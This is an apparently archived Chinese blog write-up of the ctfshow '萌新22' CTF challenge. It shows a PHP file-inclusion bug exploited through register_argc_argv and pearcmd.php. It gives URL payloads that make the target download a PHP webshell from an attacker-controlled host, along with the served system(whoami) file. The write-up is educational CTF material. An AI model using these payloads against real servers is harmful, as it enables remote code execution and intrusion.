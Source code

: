 <!--yml
category: 未分类
date: 2022-04-26 14:54:47
-->

# ctfshow 萌新22 （类似级客巅峰web4）_Firebasky的博客-CSDN博客_ctf p神

> 来源：[https://blog.csdn.net/qq_46091464/article/details/108954166](https://blog.csdn.net/qq_46091464/article/details/108954166)

> 在之前ctfshow平台的萌新22，大家都认为是无解的，题目也介绍了"还能搞，阿呆表示将直播倒立放水"。但是在级客巅峰结束的那天晚上，群里的师傅介绍说，如果修改了php.ini里面的配置(register_argc_argv)可以做出来。最后是真的做出来了。
> 使用阿呆~~~？
> ![在这里插入图片描述](img/0044589c7115a39976baf63340ea5bcb.png)

> 下面是自己的思考，感谢Guoke师傅和ha1c9on师傅的帮助

### 一. 源代码

```
<?php
if(isset($_GET['c'])){
       $c=$_GET['c'];
       if(!preg_match("/\:|\/|\\\/i",$c)){
               include($c.".php");
       }
}else{
        highlight_file(__FILE__);
}
?> 
```

### 二. register_argc_argv的介绍

通过可变信息通过GET方法是类似于参数传递给可执行文件。许多语言处理等方面argc和argv参数。 argc是参数计数，并，argv是索引数组，包含的参数。如果您想声明变量`$argc`和`$argv`和模仿这种功能，使register_argc_argv。
`$argc`变量是⽤于记录数组的⼤⼩
`$argv`变量是⽤于记录输⼊的参数。
**这里借p神的介绍**
经过简单测试，发现⽼版本（测试版本为5.2.17）默认为 On，新版本（测试版本为 5.4.45、5.5.9、
7.3.4）默认为 Off
**奇淫技巧**
这个是自己看p神的知识星球知道的。
我们是可以通过`$_GET`或者`$_POST`的⽅式来操控
`$_SERVER['argv']`的值的，但是如果测试可以发现，如果直接传⼊值，⽆论多少个参数，`$argc`的
个数始终是 1

```
 <?php
error_reporting(0);
$a=$_SERVER['argv'];
var_dump($a);
?> 
```

![在这里插入图片描述](img/661ec6937262a222d02b337b2f74a795.png)而我们可以通过`+`来进行分隔符。
(这里不解释，需要知道的可以去p神的知识星球了解)
![在这里插入图片描述](img/7da1d5d725f6f3c68416af4c8b16a777.png)

> 拓展：这个小trick,自己前几天出个一个题，如果有兴趣的可以去ctfshow平台的web入门126去试一试。

### 三. PEAR的介绍

[如何熟悉PEAR的使用？](https://www.cmdschool.org/archives/2763)
在linux下面安装直接输入命令`apt install php-pear`

### 四. 解题

[参考链接](https://khack40.info/camp-ctf-2015-trolol-web-write-up/)
这个题只需要利用文章里面的第一个方法：
`下载一个档案文件(php文件)并使用lfi`
而这个下载的命令是pearcmd.php里面有的
在pearcmd.php目录下面输入`php pearcmd.php -help`

![在这里插入图片描述](img/6a3ab5481308b742eefd256b790bd20f.png)
`而正好，这个题开启了register_argc_argv可以通过+来分隔命令，先进行包含pearcmd.php然后在通过+分隔符来执行download命令`

#### 方法一

这个方法是`Guoke`师傅告诉我的,可以在我们的vps上面创建一个eval.php里面内容是

```
<?php
echo "<?php system(whoami);?>";
?> 
```

然后在题目上传值
`?c=pearcmd&+download+http:/xx.xx.xx.xx/eval.php`
最后访问eval.php就执行成功
![在这里插入图片描述](img/7832e117c61c7ad9ade3ba1064fcbe74.png)![在这里插入图片描述](img/1d1650dee61be955969dd600aad02c05.png)

#### 方法二

是ha1c9on师傅告诉我的，可以在`~目录`下创建一个shell.php 内容就是一句话木马.
然后通过python3开一个http服务 `python3 -m http.server 81`
`访问的时候就是~目录下面的文件`
`当我们控制目标服务器去访问eval.php的时候会自动下载到目标的服务器上面`
![在这里插入图片描述](img/e455bc50cf1387386744060849b27109.png)

payload:`?c=pearcmd&+download+http://xx.xx.xx.xx:81/shell.php`

![在这里插入图片描述](img/e9508b74a5de4b50ece51c0d7d645541.png)**然后访问并执行命令**
![在这里插入图片描述](img/82f62ea019ca018f8bd6f89a2211f4b9.png)**获得flag**
![在这里插入图片描述](img/90105f1400a5c625866dcd373b28953d.png)

### 总结：

方法一：
实现的原因是下载的过程会执行php代码。这里自己测试了一下如果，利用方法一，文件内容是
`<?php system(whoami)?>`,然后访问这个文件会输出www-data。但是文件内容也是www-data。所以就验证了我的解释。
方法二：
实现的原因是我们通过python3开一个服务，而php文件的路径不在网站根目录下面就不会当php解析就会自动下载。

如果，文章也不足的地方希望师傅们指出。共同进步。